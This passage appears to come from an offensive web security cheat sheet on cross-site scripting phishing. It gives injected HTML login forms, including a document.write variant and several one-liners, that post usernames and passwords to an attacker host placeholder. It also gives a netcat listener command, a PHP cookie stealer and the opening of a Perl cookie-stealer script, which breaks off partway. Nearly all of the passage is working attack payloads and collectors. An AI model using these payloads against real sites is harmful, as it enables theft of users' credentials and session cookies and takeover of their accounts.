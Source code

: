 ```html
	<h3>Login to continue</h3>
	<input type="text" placeholder="Username">
	<input type="text" placeholder="Password">
	<input type="submit" value="Login">
	<br><br>
</div>

document.write('<h3>Login to continue</h3>  
<form action=http://<attacker_IP>>  
 <input type="username" name="username" placeholder="Username">  
 <input type="password" name="password" placeholder="Password">  
 <input type="submit" name="submit" value="Login">  
</form>');document.getElementById('urlform').remove();
```

- One liners

```html
<h3>Login To Proceed</h3> <form action=http://<attacker_IP>>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>

<h3>Login to continue</h3> <form action=http://<attacker_IP>> <input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login">  
</form>

<div><h3>Login to continue</h3> <input type="text" placeholder="Username"><input type="text" placeholder="Password"><input type="submit" value="Login"><br><br></div>
```

##### Server Side

- Netcat listener

`$ nc -lnvp 80`

- PHP Cookie Stealer

```php
<?php
$cookie = $_GET['cookie'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' . $cookie . "\r\n");
fclose($fp);
?>
```

- Perl Cookie Stealer

```perl
#!/usr/bin/perl
use POSIX;
# sudo mv cookie_stealer.pl /var/www/html/
# sudo chown www-data:www-data /var/www/html/cookie_stealer.pl
# sudo chmod 700 /var/www/html/cookie_stealer.pl
# perl -c /var/www/html/cookie_stealer.pl

# Get Current Date
# my $date = strftime "%a-%b-%e-%H:%M:%S-%Y", localtime;
my $date = strftime "%a-%b-%e-%H:%M:%S-%Y", gmtime;

#Log Directory
$dir	= "/var/www/logdir";

#Log File
$file	= "$dir/log.txt";

```